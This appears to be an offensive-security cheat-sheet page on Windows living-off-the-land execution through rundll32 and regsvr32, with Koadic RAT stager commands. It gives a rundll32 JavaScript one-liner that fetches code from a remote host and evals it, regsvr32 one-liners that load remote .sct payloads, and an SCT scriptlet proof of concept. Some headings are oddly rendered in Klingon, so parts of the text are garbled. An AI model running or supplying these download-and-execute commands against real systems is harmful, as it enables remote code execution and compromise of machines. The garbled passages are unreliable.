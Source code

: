 Rundll32 is a Windows utility that allows the execution of DLL files. It can be used by hackers to load malicious DLLs and execute their code. One popular tool that leverages Rundll32 for hacking purposes is Koadic.

Koadic is a post-exploitation RAT (Remote Access Trojan) that provides a command-and-control interface to interact with compromised Windows systems. It uses Rundll32 to load its DLL payload into memory and execute it.

To use Koadic, the attacker first needs to gain access to the target system. This can be achieved through various means, such as exploiting vulnerabilities, social engineering, or brute-forcing credentials. Once inside, the attacker can use Koadic to perform various malicious activities, such as stealing sensitive information, executing commands, or even taking full control of the compromised system.

Koadic provides a wide range of features and functionalities, including the ability to bypass antivirus detection, escalate privileges, and maintain persistence on the compromised system. It also supports multiple communication channels, such as HTTP, DNS, and ICMP, to establish communication with the attacker's command-and-control server.

It is important to note that the use of Rundll32 and Koadic for malicious purposes is illegal and unethical. This information is provided for educational purposes only, to raise awareness about potential security risks and help organizations protect their systems from such attacks.
```bash
use stager/js/rundll32_js
set SRVHOST 192.168.1.107
set ENDPOINT sales
run
#Koadic will tell you what you need to execute inside the victim, it will be something like:
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://10.2.0.5:9997/ownmG",false);x.send();eval(x.responseText);window.close();
```
## Regsvr32

* [From here](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)

### tlhIngan Hol

* [ghItlh](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
```bash
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```
**Qapla'!**

#### Regsvr32 -sct

[**ghItlh**](https://gist.github.com/Arno0x/81a8b43ac386edb7b437fe1408b15da1)
```markup
<?XML version="1.0"?>
<!-- regsvr32 /u /n /s /i:http://webserver/regsvr32.sct scrobj.dll -->
<!-- regsvr32 /u /n /s /i:\\webdavserver\folder\regsvr32.sct scrobj.dll -->
<scriptlet>
<registration
progid="PoC"
classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
<script language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
]]>
</script>
</registration>
```